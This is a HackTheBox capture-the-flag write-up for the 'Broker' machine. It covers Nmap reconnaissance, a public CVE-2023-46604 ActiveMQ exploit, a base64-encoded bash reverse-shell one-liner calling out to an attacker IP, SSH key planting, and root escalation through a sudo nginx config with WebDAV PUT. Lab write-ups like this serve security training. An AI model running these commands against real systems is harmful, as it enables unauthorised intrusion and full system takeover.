








HackTheBox - Machine Broker
IP: 10.10.11.243
Machine Name: Broker
Difficulty: Easy
Starting to scan with Nmap:
sudo nmap --min-rate 5000 -sS -n -vvv -Pn 10.10.11.243 -oN scan_ports_tcp
I perform a scan using reconnaissance scripts with Nmap:
sudo nmap -sCV -p22,80 -vvv 10.10.11.243 -oN targeted
I saw something related to "ActiveMQ", I went on to search for "ActiveMQ default port" and found port "61616". I can also perform a scan of all ports (1-65535).
sudo nmap --min-rate 5000 -sS -n -vvv -Pn -p- 10.10.11.243 -oN scan_all_ports_tcp

Since I knew the port through which ActiveMQ runs, I decided to run a scan with Nmap to detect the version number, also launching basic Nmap recon scripts.
sudo nmap -sVC -vvv -p61616 10.10.11.243

Another alternative was to log in with the credentials "admin:admin" on the port 80 site and navigate to /admin. It was there that I detected the version.

With this information, I conclude that the service is running "ActiveMQ 5.15.15". I searched for "ActiveMQ 5.15.15 exploit" and found that there is a vulnerability related to the CVE identifier "CVE-2023-46604".

I went to search on GitHub for an exploit for "ActiveMQ 5.15.15", as it is common to find exploits of this type on that platform.

Click on the first result, and clone the GitHub repository.
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Then I went into the folder:
cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ
Since only one EXE file was provided, I will proceed to compile the Go file as follows:
go build -ldflags '-s -w' .
By using "-s", I tell the linker to omit the debugging symbol information from the binary. With "-w", I indicate that the linker should omit the debugging information from the program. This process results in a much lighter executable compared to simply running "go build .". I like to further reduce the size of the executable, so I will apply UPX to it:
upx ActiveMQ-RCE
It must then be set to listen on port 8001:
python3 -m http.server 8001
Why should I listen on port 8001? Simply because it will read from the poc-linux.xml file and send us the reverse shell.

We convert this to base64 to send the connection:
echo -n "bash -c 'bash -i >& /dev/tcp/{Your_IP}/8443 0>&1'" | base64 -w 0
Sure, in the image it is downloading an ELF file from the machine, but I found it easier to simply place the following value in "value":
echo -n {Your_Output_Rev_Base64} | base64 -d | bash
Then I start listening:
rlwrap nc -lnvp 8443
Finally I launch:
./ActiveMQ-RCE -i 10.10.11.243 -u http://{Your_IP}:8001/poc-linux.xmlI should have received a connection on port 8443. Then, I performed the tty processing:
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 30 columns 142
When I use "stty rows 30 columns 142", I rely on the values of "stty size". You will have to adapt them to your screen size.
When I ran "whoami", I noticed that it was the user "activemq". I went to "/home" and saw that I had a working directory. Since port 22 was open, I simply wanted to add access via SSH:
cd /home/activemq
mkdir .ssh
echo -n "{Your_id_rsa.pub}" > authorized_keys
In the value of "Your_id_rsa.pub", I mean the content of the id_rsa.pub file. In case you don't have one associated with your current user, you can use ssh-keygen.
Then, simply try to connect without providing a password; you should have access:
ssh activemq@10.10.11.243
Once I ran "sudo -l" and saw that I had permissions to run "nginx" as superuser without providing a password.

Since I have sudo permissions on Nginx, I will move on to create a custom configuration. I will create the file "pwned.conf" in the "/tmp" directory with the following content:
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
worker_connections 1024;
}
http {
server {
listen 7777;
location / {
root /;
autoindex on;
dav_methods PUT;
}
}
}
Then, I just have to add my custom configuration:
sudo /usr/sbin/nginx -c /tmp/pwned.confThen, I access the website and I see the following: I have the root mount of the system. I will write my "id_rsa.pub" in "/root/.ssh/authorized_keys" to be able to access as user by SSH without providing password:

Then I just add my id_rsa.pub to the authorized_keys using curl:
curl -X PUT http://10.10.11.243:7777/root/.ssh/authorized_keys --upload-file ~/.ssh/id_rsa.pub
I connect via ssh:
ssh root@10.10.11.243
Do you have any questions or experience any problems trying to solve the machine? Contact me on Discord or just talk to me for a chat! I'm available to chat :).
FisMatHack#3733
Thanks for reading :)
References:
https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ